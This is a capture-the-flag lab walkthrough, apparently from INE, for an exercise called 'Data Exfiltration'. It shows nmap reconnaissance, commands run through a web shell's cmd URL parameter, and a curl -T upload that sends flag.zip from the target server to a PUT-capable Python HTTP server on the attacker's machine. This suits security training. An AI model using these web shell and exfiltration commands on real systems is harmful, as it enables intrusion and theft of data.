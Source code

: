 # 🔬Data Exfiltration

The Kali OS GUI instance is web hosted on the INE website, where:

* You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a _low privilege user_ (i.e. student). A sensitive flag file is kept in a zipped archive file in the _student user's home directory_.
* There is a monitor process running on the server machine that blocks most protocols _except HTTP protocol_ (when using port **80**).
* The API endpoint is accessible at `demo.ine.local` domain.

_Objective_: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

_**Tools**_ used:

* **`nmap`**, **`curl`**
* A web browser
* Python Scripting

## SOLUTION

*   Check Kali instance IP address and ping the vulnerable server.

    * **`ip -br -c a`**
    * **`ping demo.ine.local`**

    ```shell
    root@INE:~# ip -br -c a
    eth1@if126466    UP             192.70.33.2/24 
    lo               UNKNOWN        127.0.0.1/8 
    ip_vti0@NONE     DOWN           
    eth0@if126463    UP             10.1.0.17/16
    
    root@INE:~# ping demo.ine.local
    PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
    64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
    ```
* The web server IP is `192.70.33.3`

### nmap

*   Perform an `nmap` scan to check open ports on the server:

    *   _Simple scan_:

        **`sudo nmap demo.ine.local`**

    ```shell
    root@INE:~# sudo nmap demo.ine.local
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE
    8000/tcp open  http-alt
    MAC Address: 02:42:C0:46:21:03 (Unknown)
    
    Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
    ```

    *   _Advanced scan_:

        **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**

        * **`-sC`** - for default scripts
        * **`-sV`** - probe open ports to determine service/versions info
        * **`-oA`** - output all 3 major formats in a directory

    ```shell
    root@INE:~# less nmap/dataexfiltration.nmap
    
    # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
    Nmap scan report for demo.ine.local (192.70.33.3)
    Host is up (0.0000080s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
    |_http-title: Site doesn't have a title (text/html; charset=utf-8).
    MAC Address: 02:42:C0:46:21:03 (Unknown)
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
    ```

    * A Python2 web server (Werkzeug) is running on open port **8000**.
* Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

### Web shell commands

* Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:
  * **`http://demo.ine.local:8000/?cmd=pwd`**

![](.gitbook/assets/image-20220505120650948.png)

* **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

![](.gitbook/assets/image-20220505120905753.png)

* _flag.zip_ file must be transferred to the Kali instance.
* Check if `curl` command is present on the server
  * **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

![](.gitbook/assets/image-20220505121232523.png)

* `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

> \-T, --upload-file This transfers the specified local file to the remote URL. If there is no file part in the specified URL, curl will append the local file name. NOTE that you must use a trailing / on the last directory to really prove to Curl that there is no file name or curl will think that your last directory name is the remote file name to use. That will most likely cause the upload oper‐ ation to fail. If this is used on an HTTP(S) server, the PUT command will be used.

### Python HTTP server

* Run a HTTP server on the local machine using python:
  * **`python -m SimpleHTTPServer 80`**
  * The Kali instance IP is `192.70.33.2`
  * `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
  * _Error response - Unsupported method ('PUT')_

![](.gitbook/assets/image-20220505125425734.png)

* (Same error with **`python3 -m http.server 80`**)
*   Create a Python script to run an _HTTP server supporting PUT_.

    ```shell
    root@INE:~# which python
    /usr/bin/python
    
    root@INE:~# nano httpserver.py
    ```

    * Add the following code to the htttserver.py script:

    ```python
    #!/usr/bin/python
    import SimpleHTTPServer
    import BaseHTTPServer
    
    class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
        def do_PUT(self):
            print self.headers
            length = int(self.headers["Content-Length"])
            path = self.translate_path(self.path)
            with open(path, "wb") as dst:
                dst.write(self.rfile.read(length))


    if __name__ == '__main__':
        SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
    ```
    
    > _Thanks to_ [_BigBlueHat_](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) _for the script._
    
    * Run the SimpleHTTP server using the script:
      * **`python httpserver.py 80`**
    * Try again the PUT request `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
      * Archive flag.zip was received by the server.

![](.gitbook/assets/image-20220505130449931.png)

* Stop the running HTTP server and check the folder for the downloaded file.
  * **`ls -l`**

![](.gitbook/assets/image-20220505131132654.png)

* Unzip the archive and retrieve the flag:
  * **`unzip flag.zip`**
  * **`cat flag/flag.txt`**

![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
>
> 📌 Check [An Introduction to Web Shells - by Acunetix](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)
